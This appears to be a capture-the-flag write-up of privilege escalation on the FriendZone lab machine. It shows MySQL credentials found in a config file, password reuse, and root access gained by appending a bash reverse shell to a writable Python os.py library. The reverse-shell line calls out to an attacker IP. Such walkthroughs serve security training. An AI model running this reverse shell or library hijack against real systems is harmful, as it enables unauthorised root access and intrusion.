



# 25 - PrivEsc

# Mysql creds
```
www-data@FriendZone:/var/www$ cat mysql_data.conf
for development process this is the mysql creds for user friend

db_user=friend

db_pass=Agpyu12!0.213$

db_name=FZ
```


# Password Reuse



# reporter.py

```py
friend@FriendZone:/opt/server_admin$ ls -l
total 4
-rwxr--r-- 1 root root 424 Jan 16  2019 reporter.py
friend@FriendZone:/opt/server_admin$ cat reporter.py 
#!/usr/bin/python

import os

to_address = "admin1@friendzone.com"
from_address = "admin2@friendzone.com"

print "[+] Trying to send email to %s"%to_address

#command = ''' mailsend -to admin2@friendzone.com -from admin1@friendzone.com -ssl -port 465 -auth -smtp smtp.gmail.co-sub scheduled results email +cc +bc -v -user you -pass "PAPAP"'''

#os.system(command)

# I need to edit the script later
# Sam ~ python developer
```

Unfortunately this python script doesn't do anything and we don't have write permission on this file


# Writeable python os library


os.py is writeable if root imports this library we gain arbitrary code execution. As we know from reporter.py os library is imported in there. Let's try to abuse this functionality.


# os.py reverse shell
```
friend@FriendZone:~$ tail -n 1 /usr/lib/python2.7/os.py 
system("bash -c 'bash -i >& /dev/tcp/10.10.14.9/9001 0>&1'")
```

Ddd the system function call to the bottom of the page otherwise it won't work because `system` is defined in this library

# Root shell



